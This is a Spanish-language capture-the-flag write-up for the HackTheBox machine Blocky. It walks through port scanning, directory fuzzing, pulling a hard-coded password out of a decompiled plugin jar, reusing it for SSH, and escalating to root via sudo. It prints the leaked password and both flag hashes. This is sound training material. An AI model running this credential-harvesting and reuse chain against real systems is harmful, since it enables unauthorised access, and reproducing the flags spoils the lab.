

## Información Básica

### Técnicas vistas

- WordPress Enumeration
- Information Leakage
- Analyzing a jar file - JD-Gui + SSH Access
- Abusing Sudoers Privilege [Privilege Escalation]

### Preparación

- eJPT

***

## Reconocimiento

### Nmap

Iniciaremos el escaneo de **Nmap** con la siguiente línea de comandos:

```bash wrap=false
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.37 -oG nmap/allPorts 
```

| Parámetro           | Descripción                                                                                  |
| ------------------- | -------------------------------------------------------------------------------------------- |
| `-p-`               | Escanea **todos los puertos** (1-65535).                                                     |
| `--open`            | Muestra **solo puertos abiertos**.                                                           |
| `-sS`               | Escaneo **SYN** (rápido y sigiloso).                                                         |
| `--min-rate 5000`   | Envía al menos **5000 paquetes por segundo** para acelerar el escaneo.                       |
| `-vvv`              | Máxima **verbosidad**, muestra más detalles en tiempo real.                                  |
| `-n`                | Evita resolución DNS.                                                                        |
| `-Pn`               | Asume que el host está activo, **sin hacer ping** previo.                                    |
| `10.10.10.37`      | Dirección IP objetivo.                                                                       |
| `-oG nmap/allPorts` | Guarda la salida en formato **grepable** para procesar con herramientas como `grep` o `awk`. |

```txt wrap=false
PORT      STATE SERVICE   REASON
21/tcp    open  ftp       syn-ack ttl 63
22/tcp    open  ssh       syn-ack ttl 63
80/tcp    open  http      syn-ack ttl 63
25565/tcp open  minecraft syn-ack ttl 63
```

Ahora con la función **extractPorts**, extraeremos los puertos abiertos y nos los copiaremos al clipboard para hacer un escaneo más profundo:

```bash title="Función de S4vitar"
extractPorts () {
	ports="$(cat $1 | grep -oP '\d{1,5}/open' | awk '{print $1}' FS='/' | xargs | tr ' ' ',')" 
	ip_address="$(cat $1 | grep -oP '\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}' | sort -u | head -n 1)" 
	echo -e "\n[*] Extracting information...\n" > extractPorts.tmp
	echo -e "\t[*] IP Address: $ip_address" >> extractPorts.tmp
	echo -e "\t[*] Open ports: $ports\n" >> extractPorts.tmp
	echo $ports | tr -d '\n' | xclip -sel clip
	echo -e "[*] Ports copied to clipboard\n" >> extractPorts.tmp
	/bin/batcat --paging=never extractPorts.tmp
	rm extractPorts.tmp
}
```

```bash wrap=false
nmap -sVC -p21,22,80,25565 10.10.10.37 -oN nmap/targeted
```

| Parámetro           | Descripción                                                                          |
| ------------------- | ------------------------------------------------------------------------------------ |
| `-sV`               | Detecta la **versión** de los servicios que están corriendo en los puertos abiertos. |
| `-C`                | Ejecuta **scripts NSE de detección de versiones y configuración**.                   |
| `-p`                | Escanea únicamente los puertos seleccionados.                                        |
| `10.10.10.37`      | Dirección IP objetivo.                                                               |
| `-oN nmap/targeted` | Guarda la salida en **formato normal** en el archivo indicado.                       |

```txt wrap=false
PORT      STATE SERVICE   VERSION
21/tcp    open  ftp       ProFTPD 1.3.5a
22/tcp    open  ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp    open  http      Apache httpd 2.4.18
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Did not follow redirect to http://blocky.htb
25565/tcp open  minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
```

### Whatweb

Vamos a ver que tecnologías está usando en el puerto `80`, deberemos de añadir el dominio `blocky.htb` a `/etc/hosts` para que funcione:

```bash wrap=false
❯ whatweb http://blocky.htb
http://blocky.htb [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.37], JQuery[1.12.4], MetaGenerator[WordPress 4.8], PoweredBy[WordPress,WordPress,], Script[text/javascript], Title[BlockyCraft &#8211; Under Construction!], UncommonHeaders[link], WordPress[4.8]
```

### Wfuzz

Antes de hacer un escaneo con `wpscan` o una herramienta similar, voy a hacer un poco de **fuzzing**:

```bash wrap=false
❯ wfuzz -c -L --hc=404 -t 200 -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt http://blocky.htb/FUZZ
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://blocky.htb/FUZZ
Total requests: 26583

=====================================================================
ID           Response   Lines    Word       Chars       Payload                    
=====================================================================

000000275:   200        10 L     51 W       380 Ch      "wiki"                     
000000291:   200        25 L     347 W      10304 Ch    "phpmyadmin"               
000000025:   200        200 L    2015 W     40838 Ch    "wp-includes"              
000000013:   200        0 L      0 W        0 Ch        "wp-content"               
000000016:   200        37 L     61 W       745 Ch      "plugins"                  
000000020:   200        69 L     199 W      2397 Ch     "wp-admin"                 
000003781:   403        11 L     32 W       298 Ch      "server-status"            
000000136:   403        11 L     32 W       296 Ch      "javascript"               

Total time: 0
Processed Requests: 26433
Filtered Requests: 26425
Requests/sec.: 0
```

Dentro de plugins podemos ver 2 archivos `.jar`:



### jd-gui

Si los descargamos y usamos la herramienta `jd-gui` podremos ver el código:

```java title="BlockyCore.class"
package com.myfirstplugin;

public class BlockyCore {
  public String sqlHost = "localhost";
  
  public String sqlUser = "root";
  
  public String sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
  
  public void onServerStart() {}
  
  public void onServerStop() {}
  
  public void onPlayerJoin() {
    sendMessage("TODO get username", "Welcome to the BlockyCraft!!!!!!!");
  }
  
  public void sendMessage(String username, String message) {}
}
```

Si probamos esas credenciales por **SSH** con `root` no podemos:

```bash wrap=false
❯ ssh root@10.10.10.37
root@10.10.10.37's password: 
Permission denied, please try again.
```

Pero si probamos el usuario `notch` que encontramos dentro de un post de la página:

```bash wrap=false
❯ ssh notch@10.10.10.37
notch@10.10.10.37's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Fri Jul  8 07:16:08 2022 from 10.10.14.29
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

notch@Blocky:~$ whoami
notch
```

## Escalada de privilegios

Si vemos los `grupos` en los que estamos:

```bash wrap=false
notch@Blocky:~$ id
uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

Estamos dentro de **sudo** y sabemos la contraseña por lo que:

```bash wrap=false
notch@Blocky:~$ sudo su
[sudo] password for notch: 
root@Blocky:/home/notch# whoami
root
root@Blocky:/home/notch# cat /root/root.txt 
d1ce76a4daa26a5383ee6d438152f90d
root@Blocky:/home/notch# cat user.txt 
1c4f8593f11db97b599ea46d32edd98d
```

[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/48)

---